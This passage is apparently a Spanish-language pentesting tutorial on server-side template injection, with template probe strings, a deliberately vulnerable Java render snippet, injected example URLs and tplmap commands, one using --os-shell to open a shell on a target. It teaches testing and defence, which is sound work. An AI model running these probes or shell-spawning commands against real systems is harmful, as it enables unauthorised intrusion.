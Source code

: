 ```bash
${$}
${{$}}
{$}
{{$}}
```

para obtener mas payloads podemos consultar los siguientes enlaces:

- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)
- [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

En otros casos, la vulnerabilidad queda expuesta cuando la entrada del usuario se coloca dentro de una expresión de plantilla:

```java
greeting = getQueryParameter('greeting')
engine.render("Hello {{"+greeting+"}}", data)
```

En el sitio web, la URL resultante sería algo como:

```bash
http://vulnerable-website.com/?greeting=data.username
```

El siguiente paso es intentar salir de la declaración utilizando la sintaxis de plantillas común e intentar inyectar HTML arbitrario después:

```bash
http://vulnerable-website.com/?greeting=data.username}}<tag>
```

### AUTOMATIZADA

#### TPLMAP

La forma más difícil de identificar SSTI es fuzzear la plantilla mediante la inyección de combinaciones de caracteres especiales utilizados en las expresiones de la plantilla.

Podemos usar herramientas como [Tplmap](https://github.com/epinna/tplmap) o J2EE Scan (Burp Pro) para probar automáticamente las vulnerabilidades de SSTI o crear una lista de carga útil para usar con Burp Intruder o ZAP.

ejemplo:

```bash
python2.7 ./tplmap.py -u 'http://www.target.com/page?name=John*' --os-shell

python2.7 ./tplmap.py -u "http://192.168.56.101:3000/ti?user=*&comment=supercomment&link"

python2.7 ./tplmap.py -u "http://192.168.56.101:3000/ti?user=InjectHere*&comment=A&link" --level 5 -e jade
```

#### SSTI SCANNER

- [https://www.youtube.com/watch?v=SV0uaJcAJ8M](https://www.youtube.com/watch?v=SV0uaJcAJ8M)
- [https://www.youtube.com/watch?v=SV0uaJcAJ8M](https://www.youtube.com/watch?v=SV0uaJcAJ8M)
